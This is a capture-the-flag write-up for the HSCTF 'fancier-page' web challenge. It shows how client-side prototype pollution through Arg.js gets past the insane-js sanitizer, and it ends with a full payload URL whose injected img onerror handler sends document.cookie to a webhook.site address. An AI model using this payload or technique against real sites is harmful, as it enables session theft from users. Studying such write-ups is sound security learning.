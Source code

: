 # web/fancier-page
## Description
> No description.

> Flag: flag{prototype_pollution_kills_thousands_of_websites_each_year}

## How to solve
There is 'report to admin' feature on this website. So, there must be XSS things. If we look at the `/app/scripts/display.js` there is 2 imported js module(Arg-js and insane-js). 
```
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";
import { default as insane } from "https://cdn.jsdelivr.net/npm/insane@2.6.2/+esm";
```
> Arg-js is URL argument and parameter parser.

> insane-js is HTML sanitizer, similar to Dompurify.

We can't perform basic XSS due to insane-js sanitizer. But, we have Arg.js to perform client side prototype pollution. Check out this [awesome repository](https://github.com/BlackFan/client-side-prototype-pollution). Our idea is to perform client side prototype pollution to bypass the insane-js sanitizer.

If we look at the insane-js [source code](https://github.dev/bevacqua/insane/blob/master/sanitizer.js) below.
```
function parse(key) {
    ...
    var classesOk = (o.allowedClasses || {})[low] || [];
    var attrsOk = (o.allowedAttributes || {})[low] || [];
    ...
    if (lkey === 'class' && attrsOk.indexOf(lkey) === -1) {
        value = value.split(' ').filter(isValidClass).join(' ').trim();
        valid = value.length;
    } else {
        valid = attrsOk.indexOf(lkey) !== -1 && (attributes.uris[lkey] !== true || testUrl(value));
    }
    if (valid) {
        out(' ');
        out(key);
        if (typeof value === 'string') {
            out('="');
            out(he.encode(value));
            out('"');
        }
    }

    function isValidClass(className) {
        return classesOk && classesOk.indexOf(className) !== -1;
    }
}
```
It will check  `options.allowedClasses.<tag>` and `options.allowedAtrributes.<attr>`. Since, our default `options` looks like this :
```
const options = {
	allowedAttributes: {
		a: ["href"],
		abbr: ["title"],
		details: ["open"],
		"*": ["id", "dir"],
	},
	allowedClasses: {},
	allowedSchemes: ["http", "https"],
	allowedTags: [
		"a",
		"abbr",
		"article",
		"b",
		"blockquote",
		"br",
		"code",
		"del",
		"details",
		"div",
		"em",
		"h1",
		"h2",
		"h3",
		"h4",
		"h5",
		"h6",
		"hr",
		"i",
		"img",
		"ins",
		"kbd",
		"li",
		"main",
		"mark",
		"ol",
		"p",
		"pre",
		"q",
		"s",
		"section",
		"small",
		"span",
		"strike",
		"strong",
		"sub",
		"summary",
		"sup",
		"u",
		"ul",
	],
	filter: null,
	transformText: null,
};
```
It will sanitize the `<img src=x onerror=alert(1)>` completely. To bypass this, we can use prototype pollution. 

Our final payload looks like this :
```
http://fancier-page.hsctf.com/display.html?__proto__.img[0]=onerror&__proto__.img[1]=src&title=a&content=%3Cimg+src%3dx+onerror%3dwindow.location%3D%27http%3A%2F%2Fwebhook.site%2F0611881c-bc41-45f3-a8c9-de17092c579a%2F%3F%27%2Bdocument.cookie%3B%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
``` 
Then send, to admin bot to get the flag.
![image](https://github.com/0xazr/ctf-writeups/assets/54212814/bc8a30d6-e8ec-4426-a10d-1b5c7176ff57)
